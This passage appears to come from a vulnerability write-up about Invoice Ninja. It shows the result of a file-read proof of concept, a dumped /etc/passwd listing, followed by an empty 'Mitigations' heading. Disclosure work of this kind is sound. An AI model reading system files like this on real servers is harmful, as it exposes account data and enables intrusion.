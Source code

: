 <img class="img_full" src="file-read-poc.png" alt="file-read-poc">

> Tadaaa! 🎉

```html
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin
invoiceninja:x:1500:1500::/var/www/app:/bin/sh
```

A true eye candy for every Security Ninja! 🥷

## Mitigations

